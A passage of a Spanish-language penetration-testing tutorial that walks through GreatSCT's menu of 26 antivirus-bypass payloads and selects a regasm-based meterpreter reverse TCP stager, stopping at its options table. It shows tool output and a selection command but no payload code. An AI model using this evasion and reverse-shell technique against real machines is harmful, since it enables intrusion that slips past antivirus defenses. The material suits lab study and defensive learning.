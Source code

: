 Info:

```
===============================================================================
                                   Great Scott!
===============================================================================
      [Web]: https://github.com/GreatSCT/GreatSCT | [Twitter]: @ConsciousHacker
===============================================================================

GreatSCT-Bypass Menu

        26 payloads loaded

Available Commands:

        back                    Go to main GreatSCT menu
        checkvt                 Check virustotal against generated hashes
        clean                   Remove generated artifacts
        exit                    Exit GreatSCT
        info                    Information on a specific payload
        list                    List available payloads
        use                     Use a specific payload

GreatSCT-Bypass command:
```

Veremos que al utilizar esa herramienta nos carga `26` `payloads`, si hacemos un `list` podremos ver todos los `payloads` que nos ha cargado, todos estos `payloads` tienen que ver con diferentes herramientas propias del `S.O.` `Windows` que despues va a utilizar para ejecutarlos, pueden haber algunos que lo detecte el antivirus y otros que no, pero vamos a ver los que no son detectados por el `antivirus`.

Vamos a probar a utilizar el numero `16` que utiliza `regasm` para ejecutar una `shell reversa`, para saber mas informacion de la herramienta de `Windows` `regasm.exe` estara en el siguiente link:

URL = [regasm.exe Microsoft Info](https://learn.microsoft.com/es-es/dotnet/framework/tools/regasm-exe-assembly-registration-tool)

Vamos a seleccionar el `payload` numero `16`:

```shell
use 16
```

Info:

```
===============================================================================
                                   Great Scott!
===============================================================================
      [Web]: https://github.com/GreatSCT/GreatSCT | [Twitter]: @ConsciousHacker
===============================================================================

 Payload information:

        Name:           Pure InstallUtil C# Reverse TCP Stager
        Language:       regasm
        Rating:         Excellent
        Description:    pure regasm windows/meterpreter/reverse_tcp stager

Payload: regasm/meterpreter/rev_tcp selected

Required Options:

Name                    Value           Description
----                    -----           -----------
COMPILE_TO_DLL          Y               Compile to a DLL
DEBUGGER                X               Optional: Check if debugger is attached
```
